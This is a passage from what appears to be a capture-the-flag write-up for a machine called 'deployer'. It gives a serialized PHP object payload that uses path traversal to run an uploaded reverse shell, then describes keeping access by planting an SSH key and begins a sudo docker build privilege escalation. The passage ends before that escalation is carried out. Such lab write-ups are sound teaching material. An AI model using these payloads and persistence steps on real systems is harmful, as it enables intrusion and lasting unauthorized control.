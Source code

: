 <figure><img src="../../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

The FTP Root is at `/srv`, meaning the reverse shell I uploaded is at `/srv/ftp/phpreverseshell.php`. We can then execute it using this serialised object:

```
O:4:"Page":1:{s:4:"file";s:48:"../../../../../../../srv/ftp/phpreverseshell.php";}
```

I had to put the file there again since something cleared it, but I did get a reverse shell in the end:

<figure><img src="../../../.gitbook/assets/image (22) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

I upgraded the shell by dropping my public SSH key into the user's `authorized_keys` folder for easy access in case I lose this initial shell.

### Sudo Docker Build --> Root

The user could run `sudo` with some commands:

```
shanah@deployer:~$ sudo -l
Matching Defaults entries for shanah on deployer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shanah may run the following commands on deployer:
    (root) NOPASSWD: /usr/bin/docker images
    (root) NOPASSWD: /usr/bin/docker build *
```
